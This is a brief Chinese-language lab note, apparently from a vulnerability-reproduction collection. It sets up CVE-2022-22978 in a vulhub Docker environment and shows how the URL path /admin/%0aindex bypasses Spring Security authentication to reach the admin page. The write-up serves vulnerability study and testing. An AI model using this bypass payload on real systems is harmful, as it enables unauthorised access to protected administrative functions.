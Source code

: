 # 一、环境搭建
1. 使用vulhub环境，vulhub/spring/CVE-2022-22978，docker启动环境
	![1.png](./img/spring/CVE-2022-22978/1.png)
2. 访问http://IP:8080，进入如下界面
	![2.png](./img/spring/CVE-2022-22978/2.png)
# 二、漏洞复现
1. 后台路径为/admin，直接访问会error
	![3.png](./img/spring/CVE-2022-22978/3.png)
2. 将后台url改成如下，再次访问
	```shell
	http://IP:8080/admin/%0aindex
	```
3. 如下，成功绕过认证进入后台
	![4.png](./img/spring/CVE-2022-22978/4.png)